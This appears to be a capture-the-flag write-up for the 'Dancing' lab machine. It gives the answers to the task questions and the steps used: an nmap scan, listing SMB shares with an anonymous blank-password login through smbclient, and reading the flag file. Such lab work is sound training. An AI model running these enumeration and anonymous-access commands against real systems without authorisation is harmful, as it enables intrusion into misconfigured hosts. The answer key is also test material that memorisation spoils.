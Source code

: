 ## 1. Questions
- Task 1
	- What does the 3-letter acronym SMB stand for?
		- `Server Message Block`
- Task 2
	- What port does SMB use to operate at?
		- `445`
- Task 3
	- What is the service name for port 445 that came up in our Nmap scan?
		- `microsoft-ds`
- Task 4
	- What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?
		- `-L`
- Task 5
	- How many shares are there on Dancing?
		- `4`
- Task 6
	- What is the name of the share we are able to access in the end with a blank password?
		- `WorkShares`
- Task 7
	- What is the command we can use within the SMB shell to download the files we find?
		- `get`
- Submit Flag
	- Submit root flag
## 2. Tools Used
- Linux
- CLI
- nmap
- smbclient
- dir
- more
## 3. Approach
### nmap scan
 - Useful resource
	- https://www.stationx.net/nmap-cheat-sheet/
```bash
sudo nmap -sSVC -Pn -n --disable-arp-ping -T4 10.129.1.12
```
- Flags
	- `-sSVC` - SYN, service, and default sript scan.
	- `-Pn` - Exclude ICMP scanning.
	- `-n` - Exclude name resolution.
	- `--disable-arp-ping` - Exclude `arp` scanning.
	- `-T4` - Use speed template `aggressive`.
- Result
```bash
<snip>
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-09-13T00:28:00
|_  start_date: N/A
|_clock-skew: 3h59m58s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
<snip>
```
### Research common SMB usernames
- Resources
	- https://medium.com/@taliyabilal765/smb-enumeration-guide-b2cb5cfb20e6#:~:text=2%2D-,Common%20credentials,-%3A%20Try%20common
	- https://hackviser.com/tactics/pentesting/services/smb
- Example usernames
	- anonymous
	- admin
	- administrator
	- root
### Test SMB connection (passwordless)
- Useful resource
	- https://github.com/irgoncalves/smbclient_cheatsheet
- Successfully connected using username `anonymous`
```bash
smbclient -L //10.129.1.12 -U anonymous
```
- Result
```bash
Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk      
<snip>
```
### Test share connection (passwordless)
- Useful resource
	- https://github.com/irgoncalves/smbclient_cheatsheet
- Successfully connected to the share
```bash
smbclient //10.129.1.12/WorkShares -U anonymous
```
### Explore files and directories
 - Useful resource
	- https://github.com/security-cheatsheet/cmd-command-cheat-sheet
- Flag found in `James.P` directory
```
flag.txt                            A       32  Mon Mar 29 04:26:57 2021
```
### Retrieve the flag
 Useful resource
	- https://github.com/security-cheatsheet/cmd-command-cheat-sheet
```bash
more ./James.P/flag.txt
```

